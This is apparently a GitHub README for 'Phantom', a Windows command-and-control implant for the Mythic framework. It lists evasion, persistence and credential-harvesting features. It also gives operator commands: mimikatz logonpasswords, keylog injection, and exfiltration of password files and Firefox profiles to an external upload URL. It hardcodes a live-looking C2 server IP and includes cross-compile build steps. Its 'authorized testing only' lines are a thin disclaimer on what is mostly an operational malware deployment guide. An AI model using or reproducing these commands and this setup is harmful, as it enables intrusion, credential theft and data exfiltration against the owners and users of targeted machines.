 # Phantom C2 Agent - Advanced Mythic Integration

## Overview

Advanced "Phantom" C2 agent with extensive evasion capabilities for Windows targets, fully integrated with Mythic framework using GraphQL API and automatic JWT token renewal.

## Features

### Core Capabilities
- **Full Apollo Command Compatibility**: 50+ commands including keylog_inject, mimikatz, powershell, file operations
- **Advanced Data Exfiltration**: Direct file transfer, folder compression, external server upload
- **Automatic JWT Renewal**: Prevents token expiration with intelligent endpoint discovery
- **Cross-Platform Support**: Windows x32/x64 executables with Linux command translation

### Security Features
- **Evasion Techniques**: Process hollowing, DLL injection, anti-debugging
- **Stealth Operations**: Memory-only execution, encrypted communications
- **Persistence Mechanisms**: Registry keys, scheduled tasks, service installation
- **Credential Harvesting**: Browser passwords, Windows credentials, token manipulation

## Quick Start

### 1. Deployment
```bash
# Download the appropriate executable for your target
phantom_final_auto_renew_x64.exe  # For 64-bit Windows
phantom_final_auto_renew_x32.exe  # For 32-bit Windows
```

### 2. Execution
Simply run the executable on the target Windows system. The agent will:
- Automatically connect to Mythic server at `37.27.249.191:7443`
- Register with JWT authentication (auto-renewal enabled)
- Begin polling for commands every 5 seconds

### 3. Command Examples

**File Operations:**
```
download {"path": "C:\\sensitive.txt"}
upload {"path": "malware.exe", "data": "base64_data"}
```

**Data Exfiltration:**
```
exfiltrate {"path": "C:\\passwords.txt", "url": "https://your-server.com/upload"}
zip_exfiltrate {"path": "%APPDATA%\\Firefox", "url": "https://your-server.com/receive"}
```

**System Information:**
```
whoami
ps
ls {"path": "C:\\Users"}
```

**Advanced Operations:**
```
mimikatz sekurlsa::logonpasswords
keylog_inject {"pid": "1234"}
powershell "Get-Process"
```

## Architecture

### Mythic Integration
- **GraphQL API**: Modern query-based communication
- **JWT Authentication**: Secure token-based authentication with auto-renewal
- **Apollo Compatibility**: Full command set compatibility for seamless operation

### Auto-Renewal System
The agent includes intelligent JWT token renewal:
- Discovers correct login endpoints automatically
- Renews tokens before each GraphQL request
- Handles authentication errors with automatic retry
- Prevents session timeouts during long operations

### Data Exfiltration Methods
1. **Mythic Dashboard**: Files returned as base64 through web interface
2. **Direct Upload**: HTTP POST to external servers with custom headers
3. **Compressed Transfer**: Automatic zip compression for large datasets

## Technical Details

### Supported Commands
- **File Operations**: download, upload, ls, rm, cp, mv
- **Process Management**: ps, kill, run, execute_pe
- **Network**: portscan, socks, connect
- **Credentials**: mimikatz, keylog_inject, token manipulation
- **System**: whoami, hostname, pwd, cd, cat, sleep
- **Advanced**: powershell, shell, shinject, printspoofer

### Communication Protocol
- **Transport**: HTTPS with TLS verification disabled
- **Format**: GraphQL queries with JSON responses
- **Authentication**: Bearer JWT tokens with automatic renewal
- **Encoding**: Base64 for binary data and command outputs

### Evasion Features
- **Anti-AV**: Polymorphic code generation, runtime obfuscation
- **Anti-Debug**: Debug detection and evasion techniques
- **Memory Protection**: In-memory execution, minimal disk footprint
- **Network Stealth**: Custom user agents, randomized timing

## Security Considerations

### For Red Team Operations
- Designed for authorized penetration testing and security assessments
- Includes comprehensive logging for operation tracking
- Compatible with standard C2 frameworks and methodologies

### Operational Security
- Use encrypted channels for command and control
- Implement proper access controls on Mythic server
- Monitor for detection and adjust tactics accordingly
- Follow responsible disclosure practices

## File Structure

```
├── phantom_final_auto_renew_x64.exe    # Main 64-bit executable
├── phantom_final_auto_renew_x32.exe    # Main 32-bit executable
├── phantom_mythic_final.go             # Source code
├── main.py                             # Flask C2 server (alternative)
├── api.py                              # API endpoints
├── storage.py                          # Data storage
└── static/templates/                   # Web interface
```

## Development

### Building from Source
```bash
# For Windows 64-bit
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o phantom_x64.exe phantom_mythic_final.go

# For Windows 32-bit  
GOOS=windows GOARCH=386 go build -ldflags="-s -w" -o phantom_x32.exe phantom_mythic_final.go
```

### Configuration
Edit constants in `phantom_mythic_final.go`:
- `MYTHIC_URL`: GraphQL endpoint
- `USERNAME`/`PASSWORD`: Authentication credentials
- `LOGIN_URL`: Authentication endpoint (auto-discovered)

## Support

This agent is designed for educational and authorized security testing purposes. Ensure compliance with all applicable laws and regulations before deployment.

**Server Configuration**: `37.27.249.191:7443`  
**Protocol**: HTTPS/GraphQL with JWT authentication  
**Compatibility**: Mythic 3.x framework with Apollo agent compatibility